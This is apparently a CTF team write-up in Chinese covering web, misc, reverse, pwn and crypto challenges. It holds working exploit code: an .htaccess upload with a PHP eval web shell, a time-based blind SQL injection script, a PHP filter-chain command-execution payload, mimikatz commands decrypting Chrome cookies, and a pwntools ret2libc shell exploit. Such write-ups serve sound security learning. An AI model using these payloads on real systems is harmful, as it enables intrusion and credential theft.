# err0r_Not_F0und WriteUps

# Web

## Web | upload_2_shell

```python
import requests
import base64

url = "http://39.108.128.46:34435"

data = {"upload": ""}

htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .bbb
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/images/05a935dfed73162b9ef3178ee3aa3c99/shell.bbb"
"""

shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_GET['c']);?>")

file1 = {"fileUpload": ('.htaccess', htaccess)}

proxy = {"http":"http://127.0.0.1:8080"}
print("upload .htaccess")
r = requests.post(url, files=file1, data=data, proxies=proxy)

print(r.text) 

file2 = {"fileUpload": ('shell.bbb', shell)}
r = requests.post(url, files=file2, data=data, proxies=proxy)
print(r.text)
print(requests.get(url + "/images/05a935dfed73162b9ef3178ee3aa3c99/shell.bbb?c=system('cat /flag');").text)
```

flag{bf7433d3-4e27-409f-a530-511441038e53}

## Web | 盲人摸象

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import time

chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}@:\/_-."
tableName = ""
columnName = ""
flag = "flag{"
url = "http://47.106.186.166:3449"
for i in range(99):
    for char in chars:
        headers = {
            "Host": "47.106.186.166:34498",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36",
            #爆表名
            # "X-FORWARDED-FOR": "1' and (select case when((select count(table_name) from information_schema.tables where table_schema=database()and table_name !='client_ip' and table_name like '" + tableName + char + "%')>0) then sleep(3) else 1 end) and '1'='1"
            #爆第二张表
            # "X-FORWARDED-FOR": "1' and (select case when((select count(table_name) from information_schema.tables"
            #                    " where table_schema=database()and table_name !='client_ip' and table_name like '" + tableName + char + "%')>0)"                                                                                                                                                                                                                                                      " then sleep(3) else 1 end) and '1'='1"
            #得到flag表，开始爆列名
            # "X-FORWARDED-FOR": "1' and (select case when((select count(column_name) from information_schema.columns where table_name='flag' and column_name like '" + columnName + char + "%')>0) then sleep(3) else 1 end) and '1'='1"
            #得到flag列，开始跑数据
            "X-FORWARDED-FOR":"1' and (select case when ((select count(flag) from flag where flag like '" + flag + char + "%')>0) then sleep(3) else 1 end) and '1'='1"
        }
        start = time.time()
        res = requests.get(url, headers=headers)
        end = time.time()
        if end - start >= 3:
            flag += char
            print(flag)
            break
#flag{eea3fa67_d57b_41e3_ab5f_da2f3e5c00c0}
#把_换成-就可以了
```

## Web | unse

[http://39.108.66.86/?fun=php://filter/read=convert.base64-encode/resource=test.php](http://39.108.66.86:36217/?fun=php://filter/read=convert.base64-encode/resource=test.php)

test.php

```php
<?php  
    $test = "Hello world";

include "flag.php";


function justafun($filename){
    $result = preg_match("/flag|zlib|string/i", $filename);
    if($result){
        return FALSE;
    }
    return TRUE;
}

class afun { 
    private $a; 
    function __wakeup(){ 
        $temp = $this->a . 'ctf'; 
    } 
} 

class bfun { 
    private $items = array(); 
    public function __toString() { 
        $item = $this->items; 
        $str = $item['dd']->knife; 
        return 'what the good?'; 
    } 
} 

class cfun { 
    private $params = array(); 
    public function __get($key) {  
        global $flag;
        $tmp = $this->params[$key];
        var_dump($$tmp); 
    }
}
```

非预期打

```
view-source:http://39.108.66.86:36217/?fun=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&0=system(%22cat%20flag.php%22);
```

flag{559e720e-c3a2-4307-9f6c-33248deecc76}

# Misc

## Misc | i have the flag

```python
def add(num):
    return num-3
a = [118, 108, 112, 115, 111, 104, 104, 103, 120, 52, 53, 54]
print(''.join(list(map(chr,list(map(add,a))))))
#simpleedu123
```

回显

```python
Congratulations!!
muWn9NU0H6erBN/w+C7HVg
用flag包起来就行
```

## Misc | 幸运饼干

明文攻击

压缩包密码 sv@1v3z

谷歌浏览器的 cookies 解密的需要用户的密码和 masterkey

用 mimikatz

```python
dpapi::masterkey /in:e5f8e386-7041-4f16-b02d-304c71040126 /sid:S-1-5-21-726299542-2485387390-1117163988-1001 /password:54231 /protected
```

得到 masterkey：7a4d2ffbb42d0a1ab46f0351260aef16cae699e03e9d6514b3bf10e2977c5d228fda4a48e39b7b8a06a443c39653c2a3c3656596e7edc84e1c9682511c8343ac

再用 masterkey 解密 cookies 就行

```python
dpapi::chrome /in:Cookies /masterkey: 7a4d2ffbb42d0a1ab46f0351260aef16cae699e03e9d6514b3bf10e2977c5d228fda4a48e39b7b8a06a443c39653c2a3c3656596e7edc84e1c9682511c8343ac /file:Cookies
```

## Misc | jpginside



看起来和 python 有点儿关系

改 pyc 直接反编译

Key = rotate1234!

文件末尾有 zip，要修一下 zip 应该



6688 改 504b 就行

密码就是上面的 key

再 rot 一下



## Misc | 数独

gaps 直接拼

看了看应该是数独还原，然后图片按列 1-9 重新排布，但是 gaps 直接嗦了



# Reverse

## Reverse | Father&Son



创建进程执行文件 `core`，并且开启线程追踪。主线程使用 `PTRACE_POKEDATA` 指令将数据 `7` 写入子线程的内存地址 `0x6020AC` 处，然后继续执行子线程。

文件 core 在执行的时候生成，可以直接复制。下断点调试运行。



第一个断点处手动修改内存。



继续执行到第二个断点，发现 flag 出来了



## Reverse | explorer_dmp

神必 dmp 文件，直接拖进 IDA

在模块发现一个 stolen.dll 比较可疑



跳转到相关地址



发现有明文字符串，应该就是 flag 了



## Reverse | 字节码

pyc 文件，直接 pycdc

```python
# Source Generated with Decompyle++
# File: test_0.pyc (Python 2.7)

str = 'jYygTOy' + 'cmNycWNyYmM1Ujf'
import base64

def flag1():
    code = str[::-3]
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)
    
    print result[::-1]


def flag2():
    code = str[::-2]
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)
    
    print result[::-2]


def flag3():
Unsupported opcode: STOP_CODE
    pass
# WARNING: Decompyle incomplete

flag1()
```

有坏东西，看看字节码。

./pycdas ./test.pyc



在 flag3 函数有 4 个 STOP_CODE



找到对应位置，删去这些指令。同时修正代码长度



再次反编译

```python
# Source Generated with Decompyle++
# File: test.pyc (Python 2.7)

str = 'jYygTOy' + 'cmNycWNyYmM1Ujf'
import base64

def flag1():
    code = str[::-3]
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)
    
    print result[::-1]


def flag2():
    code = str[::-2]
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)
    
    print result[::-2]


def flag3():
    code = str[::-1]
    code = base64.b64decode(code)
    result = ''
    for i in code:
        ss = ord(i) - 1
        result += chr(ss)
    
    print result[::-1]

flag1()
```

flag3 正常了，但是调用会报错。



在字节码还发现这些数据，看起来是要把 base64 字符串拼起来，手动处理一下

```python
str = '=cWbihGfyMzNllzZ' + '0cjZzMW' + 'N5cTM4Y' + 'jYygTOy' + 'cmNycWNyYmM1Ujf'
import base64

def flag3():
    code = str[::-1]
    code = base64.b64decode(code)
    result = ''
    for i in code:
        ss = i - 1
        result += chr(ss)
    
    print(result[::-1])

flag3()
# flag{126d8f36e2b486075a1781f51f41e144}
```

# Pwn

## Pwn | choice

```python
from pwn import*
# p = process("./choice")
p = remote("39.108.173.13",37563)
libc = ELF("./libc-2.23.so")
puts_plt = 0x8048430
puts_got = 0x804a01c
func = 0x804857b
p.recvuntil(":\n")
p.send('\0' + '\xff'*20)
p.recvuntil("w\n")
p.sendline("1")
payload = b'a'*0x20 + p32(puts_plt) + p32(func) + p32(puts_got)
# gdb.attach(p)
p.recvuntil("?\n")
p.send(payload)
p.recvuntil("!\n")
libc_base = u32(p.recv(4)) - libc.symbols["puts"]
print(hex(libc_base))
system = libc_base + libc.symbols["system"]
str_bin_sh = libc_base + libc.search(b"/bin/sh").__next__()
payload = b'a'*0x20 + p32(system) + p32(func) + p32(str_bin_sh)
p.send(payload)
p.interactive()
```

flag{a57b9cb2-91a7-4a34-b569-c1ffa17d21de}

# Crypto

## Crypto | guess the key

题目给出了源码

```python
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
